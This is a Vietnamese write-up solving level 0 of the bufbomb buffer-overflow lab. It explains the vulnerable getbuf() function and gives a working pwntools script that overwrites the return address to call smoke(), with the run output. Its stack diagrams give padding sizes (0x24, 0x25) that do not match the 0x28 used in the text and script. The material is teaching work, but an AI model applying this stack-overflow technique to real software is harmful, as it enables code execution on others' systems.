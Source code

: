 # Level 0
## Task
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
```
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
Dud: getbuf returned 0x1
Better luck next time
```
> Yêu cầu: Buffer overflow để thực thi hàm `smoke()` từ hàm `test()`.

## Solution
Mở IDA Pro 32bit và xem pseudocode của hàm `test()`.  

```c
int test()
{
  int v1; // [esp+8h] [ebp-10h]
  int v2; // [esp+Ch] [ebp-Ch]

  v1 = uniqueval();
  v2 = getbuf();

  if ( uniqueval() != v1 )
    return puts("Sabotaged!: the stack has been corrupted");
  if ( v2 != cookie )
    return printf("Dud: getbuf returned 0x%x\n", v2);
  printf("Boom!: getbuf returned 0x%x\n", v2);
  return validate(3);
}
```  

Có thể thấy, ở trong hàm `test()` có hàm `getbuf()` được dùng để đọc chuỗi vào buffer. Vậy chúng ta tiến hành xem pseudocode của hàm `getbuf()`.  
```c
int getbuf()
{
  char v1[40]; // [esp+0h] [ebp-28h] BYREF

  Gets(v1);
  return 1;
}
```  

Từ đoạn pseudocode trên thì ta có thể thấy, `buffer` sẽ có độ dài là 40 (`0x28`) bytes và `buffer` này sẽ được truyền vào hàm `Gets()` để thực hiện việc đọc chuỗi từ console.  

Trước khi hàm `Gets()` được thực thi, stack của chúng ta sẽ như sau:  
```
+---------------------------------+
|     return address (getbuf)     |---> return address của hàm getbuf()
+---------------------------------+
|           ebp (getbuf)          |---> ebp của hàm getbuf()
+---------------------------------+
               .
               . => 0x24 bytes 
               .
+---------------------------------+
|              v1                 |---> top của stack
+---------------------------------+

```  

Vậy để thực thi được hàm `smoke()`, chúng ta sẽ tìm cách ghi đè địa chỉ của hàm `smoke()` vào ô nhớ stack chứa địa chỉ trả về của hàm `getbuf()` (như hình ảnh minh họa ở trên). Do đó, payload của chúng ta phải có độ dài `0x28 + 0x4 + 0x4` (với `0x28` bytes để fill hết toàn bộ buffer được cấp, `0x4` tiếp theo để ghi đè `ebp` của hàm `getbuf()` và `0x4` cuối cùng chính là địa chỉ của hàm `smoke()`.  

Ở hàm `smoke()`, nếu chúng ta gọi hàm thành công thì chuỗi `Smoke!: You called smoke()` sẽ được in ra console.  
```c
void __noreturn smoke()
{
  puts("Smoke!: You called smoke()");
  validate(0);
  exit(0);
}
```

### Script
Để hiện thực hóa ý tưởng trên thì chúng ta sẽ dùng module `pwn` của Python.  

```python
#! /bin/python3

from pwn import *

context.binary = './bufbomb'

# tạo 1 tiến trình tới chương trình bufbomb
io = process(['./bufbomb', '-u', '09821978'])

e = ELF('./bufbomb')

# tạo payload với (0x28 + 0x4) ký tự 'A'
exploit_payload = b'A'*(0x28 + 4)

# lấy địa chỉ của hàm smoke() và thêm vào payload
exploit_payload += p32(e.symbols['smoke'])

# nhập payload vào tiến trình bufbomb
io.sendline(exploit_payload)

# hiển thị kết quả
io.interactive()
```  

Stack khi bị buffer overflow:  
```
+---------------------------------+
|     địa chỉ của hàm smoke()     |---> return address của hàm getbuf()
+---------------------------------+
|             'AAAA'              |---> ebp của hàm getbuf()
+---------------------------------+
               .
               . => 0x25 bytes 
               .

+---------------------------------+
|             'AAAA'              |
+---------------------------------+
|             'AAAA'              |
+---------------------------------+
|             'AAAA'              |---> top của stack
+---------------------------------+

```

Chạy script:  

```
└─$ ./level0.py
[*] '/mnt/f/src-team-1/bufbomb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './bufbomb': pid 52
[*] Switching to interactive mode
[*] Process './bufbomb' stopped with exit code 0 (pid 52)
Userid: 09821978
Cookie: 0x31f21393
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
[*] Got EOF while reading in interactive
$
```  
> Thành công!
